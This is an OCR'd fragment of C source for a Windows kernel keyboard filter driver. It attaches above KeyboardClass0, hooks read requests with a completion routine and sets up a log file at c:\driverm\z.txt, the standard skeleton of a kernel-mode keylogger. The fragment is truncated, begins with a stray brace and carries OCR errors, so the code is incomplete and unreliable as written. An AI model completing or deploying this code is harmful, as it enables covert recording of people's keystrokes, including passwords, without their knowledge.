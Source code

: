 ```c
}
NTSTATUS abcRead(PDEVICE_OBJECT pDeviceObject, PIRP pIrp) {
    DbgPrint("abcRead %d", KeGetCurrentIrql());
    IoCopyCurrentIrpStackLocationToNext(pIrp);
    IoSetCompletionRoutine(pIrp, OnReadCompletion, 0, 1, 0, 0);
    numPendingIrps++;
    return IoCallDriver(pactualkeyboarddevice, pIrp);
}
NTSTATUS DriverEntry(PDRIVER_OBJECT d, PUNICODE_STRING r) {
    OBJECT_ATTRIBUTES attr;
    CCHAR ntNameFile[64] = "\\DosDevices\\c:\\driverm\\z.txt";
    UNICODE_STRING uFileName;
    STRING ntNameString;
    OBJECT_ATTRIBUTES obj_attrib;
    DbgPrint("Vijay2 %d", KeGetCurrentIrql());
    d -> MajorFunction[IRP_MJ_READ] = abcRead;
    IoCreateDevice(d, 0, 0, FILE_DEVICE_KEYBOARD, 0, 1, & pgenericdevice);
    pgenericdevice -> Flags = pgenericdevice -> Flags | DO_BUFFERED_IO;
    RtlInitUnicodeString( & uKeyboardDeviceName, L "\\Device\\KeyboardClass0");
    IoAttachDevice(pgenericdevice, & uKeyboardDeviceName, & pactualkeyboarddevice);
    RtlInitAnsiString( & ntNameString, ntNameFile);
    RtlAnsiStringToUnicodeString( & uFileName, & ntNameString, TRUE);
    InitializeObjectAttributes( & obj_attrib, & uFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
